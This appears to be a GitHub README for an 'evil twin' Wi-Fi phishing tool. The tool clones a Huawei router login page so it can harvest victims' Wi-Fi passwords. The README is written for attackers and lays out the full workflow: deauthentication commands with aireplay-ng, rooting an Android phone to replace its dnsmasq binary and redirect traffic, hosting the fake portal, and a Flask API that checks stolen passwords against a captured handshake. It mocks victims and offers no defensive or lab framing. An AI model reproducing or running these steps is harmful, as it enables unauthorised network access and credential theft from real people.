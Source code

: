 # Eviltwin-Huawei _XD

Features :] :

 - Written in python RUN ANYWHERE!
 - very low hardware/network usage
 - Optimized for slow hotspots
 - Low size assets 1.4mb!
 - lightning fast validation with aircrack-ng
 - Available in two languages EN/AR
 - Extracted from real device
 - Looks quite convincing

enjoy :)

# Demo

<img src="./demo/home.jpg" alt="homepage"/>
<img src="./demo/curl.jpg" alt="playwithcurl"/>
<img src="./demo/incorrect.gif"  alt="notgood"/>
<img src="./demo/pass.gif"  alt="Allgood"/>

# Requirements

 - You target should be using Huawei router  
   verfiy this with airodump '--manufacturer' flag
 - if your target is dump enough that he doesn't know  
   what manufacturer is his router then use this template
 - 1 wifi card OR laptop wifi card  
   you can use your laptop internal wifi card if you want
 - 1 wifi card OR Rooted Android +4 to 10 supported  
   if you have another wifi card that supports ap mode  
   (hotspot) use it, if not follow android guide
 - linux with aircrack-ng installed 
 - Basic linux/wifi tools knowledge
 - Brain
 - Coffee! //network chuck lol

# Setup

## Android

This project was originally made to run on a android phone!!  
i didn't have a wifi card that supports ap mode (hotspot), Android phones  
have a really powerfull hotspot range it's just perfect better than any wifi  
card you will find on market that's why i made this.....

That said it was very hard to customize hostapd on android to specfic settings,  
For the essid just set the target name from android hotspot settings and make the  
security open, next we need a custom ip-range the default is 192.168.43.x  
which works fine but some devices like Samsung doesn't trigger  
'Captive portal login' except on a wierd ip like 200.200.200.x  
that's what we want, this setup was made on Android 5 should be working  
on 4,5,6,7,8,9,10 starting from 11 there's a random ip-range system  
good luck with that, all you need is dnsmasq/dnsmasq.sh script it works as follow:

1. when you activate hotspot hostapd is called first  
   then it setup the interface wlan0 then calls dnsmasq  
   with a hard-coded ip range 192.168.43.x

2. we intercept hostapd or whatever calls dnsmasq  
   by making a fake dnsmaq bin so it calls our script  
   thinking it's dnsmasq at /bin/dnsmasq

3. when our script is called we setup wlan0 on whatever  
   ip-range we want in this case 200.200.200.x then  
   reserve 200.200.200.1 to ourselves

4. call the real dnsmasq with custom options like redirecting  
   to our apache server 

5. setup iptables

All you have to do is:

 - You need root access
 - use a file manager if you don't want to mess with shell
 - either use `adb shell` then `su` or install sudo and su on termux
 - rename `dnsmasq` in `/bin/` to `/bin/dnsmasq.bin`  
   `mv /bin/dnsmasq /bin/dnsmasq.bin`
 - copy dnsmasq.sh to /bin/ rename to dnsmasq give the right permission
   `cp /sdcard/dnsmasq.sh /bin/dnsmasq`  
   `chmod +x /bin/dnsmasq` i set the permissions as dnsmasq.bin
 - there should be a log file in /data/misc/wifi when dnsmasq.sh is running

NOTE: if you're planning to use another ip-range change index.html#L137 to where flask is hosted

Now activate hotspot from your settings, you should have a hotspot  
running with your target's name with open security,  
if you connect to it you should be assigned to 200.200.200.x  

next you need apache running

## Apache setup

very simple you don't actually need apache you can use python http  
like `python3 -m http.server 80` run this in the eviltwin folder

For android install apache on termux with apt go to usr/etc/apache2/sites/  
copy apache/portal.conf there then copy eviltwin folder there too  
use sudo for port 80 to work `sudo apachectl` verfiy it's running with  
`curl 127.0.0.1` or top `top | grep httpd` if it's working then you're done!

For normal whatever device use whatever http client you want or use apache  
install apache if you don't have it add portal.conf to your apache sites folder  
change the DocumentRoot to eviltwin directory, then run apache verfiy it's  
running using curl `curl 127.0.0.1`

## Hotspot

this for linux users only, you need to setup a hotspot using hostapd  
make a config for it with your target's name and open security,  
google 'linux setup hostapd'

 - run hostapd
 - run dnsmasq with dnsmasq/dnsmasq.conf  
   it should assign users to 200.200.200.x  
   then redirect to 200.200.200.1 your apache

NOTE: if you're planning to use another ip-range change index.html#L137 to where flask is hosted

## Flask Password API

1. `pip install flask`
2. copy your target handshake and rename to 'evil.cap'  
   `cp path/handshake.cap .` `mv handshake.cap evil.cap`
3. Set your target MAC address use aircrack to get it  
   ```bash
   $ aircrack-ng evil.cap
   Reading packets, please wait...
   Opening evil.cap
   Read 3258 packets.

   #  BSSID              ESSID                     Encryption

   1  5C:F9:6A:FC:17:2B  Huawei-172F               WPA (0 handshake, with PMKID)
   2  C2:F0:00:2F:90:D2                            Unknown

   ```
   Copy BSSID of your target and paste in flask.py#L5 as target  
   Note that your target should have a handshake/pkmid in evil.cap  
   In my case it has a PKMID


4. `python3 passapi.py` now password verification api is online  
   you can play with it using `curl 127.0.0.1:5000/pass 'pass=12345678'`  
   it should reply with 'Allgood' or 'notgood' if password is incorrect

NOTE: if you're planning to use another ip-range change index.html#L137 to where flask is hosted


# How it works

1. we run a deuth attack on the target's router  
   `airmon-ng start wlan0`  
   `airodump-ng wlan0mon -c 5` put your target's channel  
   `aireplay-ng -0 0 -a MA:CA:DD:RE:SS wlan0mon` put your target's mac address

2. all clients connected to target router are disconnected
3. user connect to your hotspot cuz he's dump
4. dnsmasq redirect all his requests to your http server  
   that servers our eviltwin template asking for password
5. user enters a password
6. password is sent back to our flask api then it  
   runs aircrack-ng with a handshake you supplied  
   and check if the password is correct
7. our flask api replies with 'Allgood'/'notgood' to the user
8. if 'notgood' ask user to enter a correct password  
   if 'Allgood' make update animation  
9. if you got the password you should stop aireplay

enjoy your wifi!

pm on telegram for any queries [@Pine_Orange](t.me/Pine_Orange) or [@xd2222](t.me/xd2222)

# Donation
if you liked this project you can support me by donating to the following address,  
THANKS!
 - XMR - `433CbZXrdTBQzESkZReqQp1TKmj7MfUBXbc8FkG1jpVTBFxY9MCk1RXPWSG6CnCbqW7eiMTEGFgbHXj3rx3PxZadPgFD3DX`
